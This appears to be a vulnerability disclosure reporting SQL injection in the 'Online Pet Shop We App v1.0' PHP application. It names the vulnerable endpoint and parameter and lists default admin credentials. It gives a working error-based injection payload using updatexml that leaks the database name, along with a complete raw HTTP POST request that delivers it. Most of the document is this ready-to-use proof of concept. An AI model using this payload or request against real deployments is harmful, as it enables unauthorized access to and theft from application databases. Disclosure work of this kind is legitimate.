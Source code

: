 # Online Pet Shop We App v1.0 by oretnom23 has SQL injection

BUG_Author: Line

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14839/online-pet-shop-we-app-using-php-and-paypal-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /pet_shop/classes/Master.php?f=delete_sub_category,id

Vulnerability location: /pet_shop/classes/Master.php?f=delete_sub_category,id

dbname=pet_shop_db,length=11

[+] Payload: id=5' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id


```sql
POST /pet_shop/classes/Master.php?f=delete_sub_category HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=k8u390ikl968phg971gmpmhtj5
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

id=5' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/185292956-00334814-1310-47f8-945c-bf3d1437bea0.png)
